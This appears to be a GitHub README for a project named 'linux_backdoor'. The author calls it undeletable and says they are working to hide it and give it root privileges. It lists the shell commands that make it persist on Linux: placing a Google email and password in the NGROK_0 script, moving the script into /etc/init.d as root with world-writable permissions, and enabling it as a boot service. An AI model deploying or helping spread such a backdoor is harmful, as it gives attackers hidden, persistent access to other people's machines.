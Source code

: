 # linux_backdoor<br/>
linux backdoor , have some fanctionalites , its undeletble , i am still working to hide it and gave it root previlages<br/>
after you download it you do this commands:<br/>
nano NGROK_0<br/>
#change MAIL and PASSWD in line 23 , 24 , to your google email and password 
sudo mv NGROK_0 /etc/init.d/
sudo chown root:root /etc/init.d/NGROK_0
sudo chmod 777 /etc/init.d/NGROK_0
sudo update-rc.d  NGROK_0 defaults
sudo update-rc.d  NGROK_0 enable
sudo systemctl daemon-reload
sudo service start  NGROK_0
